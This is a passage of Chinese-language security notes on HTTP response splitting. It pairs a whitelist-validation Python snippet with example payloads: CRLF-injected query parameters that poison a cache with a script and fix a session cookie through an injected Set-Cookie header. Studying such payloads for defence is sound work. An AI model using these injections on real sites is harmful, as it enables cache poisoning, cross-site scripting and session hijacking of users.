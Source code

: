 
#### <font style="color:rgb(51, 51, 51);">白名单验证</font>
```python
def validate_language_code(lang):
    """验证语言代码"""
    allowed_languages = ['en', 'zh', 'fr', 'de', 'ja', 'ko']
    return lang if lang in allowed_languages else 'en'

# 使用白名单而不是黑名单
lang = validate_language_code(request.args.get('lang', 'en'))
```


还有各个框架的安全设置，和服务器设置



## <font style="color:rgb(51, 51, 51);">深度攻击思路（ing）</font>
### <font style="color:rgb(51, 51, 51);">缓存投毒攻击 (Cache Poisoning)</font>
<font style="color:rgb(51, 51, 51);">缓存投毒</font>

#### <font style="color:rgb(51, 51, 51);">攻击原理</font>
```plain
# 正常请求
 GET /api/data?callback=handleData HTTP/1.1
 Host: example.com
 
 # 恶意载荷
 GET /api/data?callback=handleData%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert('Cached XSS')</script> HTTP/1.1
 Host: example.com
```

#### <font style="color:rgb(51, 51, 51);">攻击效果</font>
```plain
# 第一个响应（被缓存）
 HTTP/1.1 200 OK
 Content-Type: application/javascript
 Content-Length: 0
 
 # 第二个响应（恶意内容）
 HTTP/1.1 200 OK
 Content-Type: text/html
 
 <script>alert('Cached XSS')</script>
```

### <font style="color:rgb(51, 51, 51);">会话固定攻击 (Session Fixation)</font>
<font style="color:rgb(51, 51, 51);">通过响应拆分强制设置特定的会话ID。</font>

```plain
# 攻击载荷
 GET /login?redirect=/home%0d%0aSet-Cookie:%20SESSIONID=ATTACKER_CONTROLLED_ID;%20HttpOnly HTTP/1.1
 
 # 响应结果
 HTTP/1.1 302 Found
 Location: /home
 Set-Cookie: SESSIONID=ATTACKER_CONTROLLED_ID; HttpOnly
```



